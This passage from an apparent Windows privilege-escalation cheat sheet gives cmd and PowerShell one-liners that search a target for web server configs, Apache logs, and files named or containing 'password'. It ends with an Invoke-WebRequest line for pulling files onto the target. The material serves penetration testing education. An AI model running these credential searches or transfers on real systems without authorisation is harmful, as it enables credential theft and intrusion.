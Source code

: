 ```powershell
Get-Childitem –Path C:\ -Include php.ini,httpd.conf,httpd-xampp.conf,my.ini,my.cnf -File -Recurse -ErrorAction SilentlyContinue
```

Any Apache web logs? 

```
dir /s access.log error.log
```

```powershell
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

Any interesting files to look at? Possibly inside User directories (Desktop, Documents, etc)?

```
dir /s *pass* == *vnc* == *.config* 2>nul
```

```powershell
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
```

Files containing password inside them?

```
findstr /si password *.xml *.ini *.txt *.config 2>nul
```

```powershell
Get-ChildItem C:\* -include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```



# Appendix

## Enumeration Script

I've created a Powershell script which pretty much automates all of the above. You can check it out [here](https://github.com/absolomb/WindowsEnum). 

## Transferring Files

At some point during privilege escalation you will need to get files onto your target. Below are some easy ways to do so.

PowerShell Cmdlet (Powershell 3.0 and higher)

```powershell
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

PowerShell One-Liner 
